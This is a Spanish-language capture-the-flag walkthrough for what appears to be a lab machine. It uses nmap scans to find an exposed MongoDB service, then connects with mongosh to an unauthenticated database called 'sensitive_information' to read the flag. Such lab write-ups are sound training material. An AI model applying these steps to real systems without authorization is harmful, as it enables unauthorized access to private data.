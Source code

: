 1. **Escaneamos con Nmap**
```bash
nmap -v -sC [target ip]
```
--> 22/tcp - open - ssh
Vemos que está abierto SSH. Comprobamos si hay más puertos abiertos ya que al no especificarle nada, solo escanea los 1000 puertos más comunes.

2. **Hacemos un escaneo más profundo de TODOS los puertos.**
```bash
nmap -v -sC -p- [target ip]
```
--> 22/tcp - open - ssh
--> 27017/tcp - open - mongodb
Aparte de SSH también está abierto el de MongoDB.
Al haberse escaneado con los scripts predeterminados, vemos mucha información sobre la base de datos.
Vemos que hay una base de datos llamada `sensitive_information`, así que nos puede llamar la atención.

3. **Comprobamos que MongoDB esté ejecutándose en nuestra máquina.**
```bash
sudo systemctl status mongod
```
Si está activo, podemos abrir una consola de MongoDB.

4. **Abrimos una consola de MongoDB en la base de datos en la que queremos acceder:**
```bash
# Aquí he puesto 27017 porque es el puerto en el que está ejecutándose MongoDB en la máquina objetivo.
mongosh [target ip]:27017/sensitive_information
```
--> **MACHINE PWNED!**

5. **Nos movemos dentro para encontrar la flag.**
```bash
--> show collections;
	flag

--> db.flag.find();
	flag: 'asdfl234957liasjdf'
```
Ya tenemos la flag!